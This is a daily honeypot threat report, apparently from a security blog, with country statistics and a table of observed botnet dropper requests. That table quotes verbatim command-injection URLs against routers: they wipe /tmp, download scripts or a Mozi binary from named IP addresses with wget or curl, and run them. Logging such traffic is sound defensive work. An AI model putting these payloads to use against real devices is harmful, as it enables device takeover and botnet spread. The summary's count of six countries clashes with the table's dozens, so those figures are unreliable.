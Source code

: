 ```yaml
---
title: "Report: 2025-07-03 "
date: 2025-07-03
desciption: "Report: 2025-07-03" 
tags: [repport, daily]
---
```



# Daily Report: 2025-07-03 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 6 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 11 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 948 requests were recorded during the day, originating from 6 different countries, with a peak of 258 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| US               | Dubai              |
| FR               | Israel             |
| PT               | Israel             |
| PT               | Israel             |
| CN               | Georgia            |
| PL               | Georgia            |
| FR               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                                     |
|:---------------|:----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 197.58.209.36  | GET /shell?cd+/tmp;rm+-rf+*;wget+38.57.46.116/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                    |
| 197.45.44.159  | GET /shell?cd+/tmp;rm+-rf+*;wget+38.57.46.116/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                    |
| 41.43.68.122   | GET /shell?cd+/tmp;rm+-rf+*;wget+38.57.46.116/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                    |
| 45.135.194.11  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=%24%28killall%20-9%20mipsel%20mpsl%3B%28wget%20-O-%20http%3A%2F%2F45.8.145.203%2Frondo.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F45.8.145.203%2Frondo.sh%7C%7Ccurl%20http%3A%2F%2F45.8.145.203%2Frondo.sh%29%20%7C%20sh%20-s%20tplink%3B%29 HTTP/1.1 |
| 120.86.236.2   | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://192.168.1.1:8088/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                   |
| 156.208.121.41 | GET /shell?cd+/tmp;rm+-rf+*;wget+38.57.46.116/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                                    |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                 |
|----:|----------------------:|:--------------------------------------------------------|
| 152 |                     1 | GET /odinhttpcall1751546548 HTTP/1.1                    |
| 153 |                     1 | GET /OdinHttpCall1751546548 HTTP/1.1                    |
| 154 |                     1 | GET /Odin/http/call1751546548 HTTP/1.1                  |
| 181 |                     1 | \x00\x0E\x08\xBE\x1C5\x1F4R\x9C\xDD\x00\x00\x00\x00\x00 |
| 182 |                     1 | \x00\x0E8\xBE\x1C5\x1F4R\x9C\xDD\x00\x00\x00\x00\x00    |
| 194 |                     1 | GET /socket.io/1/?t=1751501828847 HTTP/1.1              |
| 211 |                     1 | GET /odinhttpcall1751505161 HTTP/1.1                    |
| 212 |                     1 | GET /OdinHttpCall1751505161 HTTP/1.1                    |
| 213 |                     1 | GET /Odin/http/call1751505161 HTTP/1.1                  |
| 292 |                     1 | GET /socket.io/1/?t=1751548081391 HTTP/1.1              |
| 293 |                     1 | GET /socket.io/1/?t=1751548992026 HTTP/1.1              |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   258 | US                 |
|  1 |                   145 | DE                 |
|  2 |                    88 | PT                 |
|  3 |                    74 | NL                 |
|  4 |                    73 | FR                 |
|  5 |                    40 | BG                 |
|  6 |                    39 | PL                 |
|  7 |                    37 | GB                 |
|  8 |                    25 | CN                 |
|  9 |                    21 | CA                 |
| 10 |                    18 | JP                 |
| 11 |                     9 | LT                 |
| 12 |                     9 | UA                 |
| 13 |                     7 | SC                 |
| 14 |                     7 | ZA                 |
| 15 |                     6 | RU                 |
| 16 |                     6 | EG                 |
| 17 |                     6 | BR                 |
| 18 |                     5 | TR                 |
| 19 |                     5 | RO                 |
| 20 |                     5 | SG                 |
| 21 |                     5 | VN                 |
| 22 |                     5 | BE                 |
| 23 |                     4 | IL                 |
| 24 |                     4 | AO                 |
| 25 |                     4 | IN                 |
| 26 |                     4 | GH                 |
| 27 |                     4 | MD                 |
| 28 |                     4 | GE                 |
| 29 |                     3 | HK                 |
| 30 |                     3 | KR                 |
| 31 |                     3 | EE                 |
| 32 |                     3 | KZ                 |
| 33 |                     2 | TW                 |
| 34 |                     2 | HU                 |
| 35 |                     2 | SE                 |
| 36 |                     2 | IE                 |
| 37 |                     2 | NG                 |
| 38 |                     1 | AU                 |
| 39 |                     1 | ES                 |
| 40 |                     1 | GR                 |
| 41 |                     1 | MX                 |
| 42 |                     1 | KG                 |
| 43 |                     1 | CO                 |
| 44 |                     1 | BD                 |
| 45 |                     1 | MK                 |
| 46 |                     1 | IR                 |
